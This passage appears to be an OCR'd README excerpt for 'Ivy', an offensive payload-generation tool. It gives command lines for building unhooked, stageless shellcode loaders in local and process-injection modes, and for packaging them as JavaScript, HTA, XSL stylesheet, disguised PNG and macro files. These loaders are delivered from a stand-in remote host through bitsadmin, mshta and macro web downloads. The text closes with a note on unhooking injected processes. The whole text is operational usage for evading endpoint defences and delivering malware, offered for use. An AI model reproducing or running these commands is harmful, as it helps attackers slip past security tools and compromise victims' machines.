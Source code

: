 ### Unhooked Stagless Local payload 
```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -unhook -O stageless.js
```

### Unhooked Stagless Injected payload
```
./Ivy -stageless -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -unhook -O stageless.js
```

## One Liner Commands Samples

### Non-Executable File Types

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Inject -O test.png -stageless
```

### Bitsadmin Command

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.js -url http://ACME.com -delivery bits -stageless
```

### MSHTA.exe Command

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.hta -url http://ACME.com -delivery hta -stageless
```


### Stylesheet Payload
```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.xsl -url http://ACME.com -delivery xsl -stageless
```


### Macro Web Downloader

```
./Ivy -Ix64 stageless64.bin -Ix86 stageless32.bin -P Local -O test.txt -url http://ACME.com/test.txt -delivery macro -stageless
```

# Known Issues
Currently there is a known issue with unhooking the remote injected process. A current work around is to load the [unhook](https://github.com/rsmudge/unhook-bof) BOF, for now.
